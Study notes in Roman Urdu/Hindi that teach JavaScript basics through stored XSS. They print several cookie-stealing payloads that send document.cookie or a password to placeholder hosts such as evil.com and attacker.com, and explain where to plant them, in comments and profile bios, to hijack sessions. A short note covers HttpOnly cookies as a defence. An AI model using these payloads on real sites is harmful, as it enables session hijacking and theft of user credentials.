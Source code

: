 JavaScript main agr hum **alert()** use krty hain ky website main XSS execute hoo rha hai ya nhi agr execute hoo rha hua too aik pop up ajaye ga

---

**prompt()** hum kisi command ky sath ius waqt use krty hain jab hamy user sy input chahie hota hai example agr hum likhty hain prompt("Enter your password") too website py aik display hota hai Enter Your Password phir user ius main apna password daaly ga

---

**var** hum taab lagaty hain jab hum user ki value ko apny database main store karna chahty hoon

**let** var aur let dono value store karte hain — lekin let zyada safe hota hai.

---

## Difference Between Var/let

Value store karna

**var**

var name = "Habib";

- Old JavaScript version ka style hai.

- Function-level scope rakhta hai.

**let**

let age = 18;

- New aur modern style hai (ES6+).

- Block-level scope rakhta hai.

---

**document.cookie** — (Cookies churaana)

document.cookie ek JavaScript command hai jo browser se current website ki cookie value nikalta hai.

### ⚠️ XSS mein is kaam ke liye use hota hai:

**var c = document.cookie;
alert(c); // tumhari current session ki cookies dikha dega**

### Agar attacker ka XSS payload chalta hai, toh wo ye kar sakta hai:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

### 🕵️‍♂️ Matlab: Victim ki session cookie attacker ko chali jaayegi = session hijack

---

**fetch()** — (Data dusri jagah bhejna)

fetch() ka kaam hota hai HTTP request bhejna JavaScript se.

### Example:

**fetch("https://attacker.com/steal?info=hello");**

🧠 Attacker isse user ka input, cookie, ya password apni site pe secretly bhej sakta hai.

### XSS exploit:

**fetch("https://evil.com/log?cookie=" + document.cookie);**

---

if else bhi 100% samj agya

---

### Quick Summary

**alert()**	Popup show karta hai	

XSS main use: XSS payload test karna

**prompt()**	User se input leta hai

XSS main use: Fake login / phishing

**var or let**	Value store karta hai
XSS main use: Cookie ya user data store karna

**if / else** Logic lagana
XSS main use:	Kab kya run ho

**document.cookie**	User ki cookies nikalna
XSS main use:	Session hijack

**fetch()** Data dusri site pe bhejna
XSS main use: Data leak (exfiltrate)

**img.src** 	Image ke zariye request bhejna	
XSS main use: Alternate data leak meth

---

✅ Q1: Agar main JavaScript jaisa yeh code enter kar doon: **let c = document.cookie; alert(c);**

Toh kya mujhe mere browser ki cookie mil jaaye gi?

✔️ Jawab:
Haan! Agar tum yeh JavaScript code kisi website ke JavaScript console mein daalte ho (F12 > Console), aur us website ne cookies set ki hoti hain (aur wo HttpOnly nahi hain), toh alert(c) tumhein wo cookies dikha dega.

**let c = document.cookie;
alert(c);**

### 🧠 Note: let ya var dono kaam karte hain — let sirf zyada modern hai, lekin cookies access karne mein koi farq nahi padta.

---

✅ Q2: Attacker yeh command likhta hai: fetch(**"https://evil.com/steal?cookie=" + document.cookie**);

Kya yeh victim ki cookies le jaa sakta hai?

✔️ Jawab:
Haan! Agar attacker ka XSS payload kisi website mein run ho jaata hai (malicious script inject ho jaaye) aur victim ka browser wo script chala deta hai, toh document.cookie victim ki cookies uthata hai aur fetch() ke zariye hacker ki website pe send ho jaata hai.

📦 Example full payload:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

---

✅ Q3:Command: **fetch("https://attacker.com/steal?info=hello");**

Kya hacker hello info apni site pe le ja raha hai?

✔️ Jawab:
Bilkul! Yeh sirf ek example hai — "hello" ek fake value hai. Attacker yahan koi bhi info daal sakta hai:

**fetch("https://attacker.com/steal?info=" + document.cookie); // real cookie
fetch("https://attacker.com/steal?pass=" + userPassword); // agar variable mein password hai**

🧠 Iska matlab: fetch() basically ek chori ka raasta hai — secretly info bhejna.

---

### 🔐 Extra Note: HttpOnly Cookies

Agar cookie HttpOnly flag ke sath set hui hai, toh JavaScript se document.cookie use karke access nahi kar sakte.

Example: **Set-Cookie: sessionid=abc123; HttpOnly;**

Toh XSS hone ke bawajood document.cookie khali rahega. ✅

---

### Payload:

**<script>fetch("https://evil.com/steal?cookie=" + document.cookie);</script>**

🔥 Yeh attacker kahan inject karega?

Attacker wo jagah dhoondta hai jahaan user input store hota hai aur baad mein show bhi hota hai bina sanitize kiye.

### 🔍 Real Examples:

Comment section of a blog/post: Attacker comment mein XSS script likhta hai.

**<script>fetch("https://evil.com/steal?cookie=" + document.cookie);</script>**

Profile name / bio / message boards: Attacker profile update karta hai is payload se.

Jab koi user us attacker ka profile ya comment dekhta hai, toh script chalti hai aur document.cookie attacker ko send ho jaati hai.

---

### 👨‍💻 Flow:

1. Attacker inject karta hai XSS payload (e.g., in comment).

2. Payload store ho jaata hai server pe (Stored XSS).

3. Jab victim us page ko dekhta hai:

<script> chal jaata hai

document.cookie fetch hota hai

fetch() se cookie chali jaati hai attacker's site pe

4. Attacker session hijack kar leta hai.



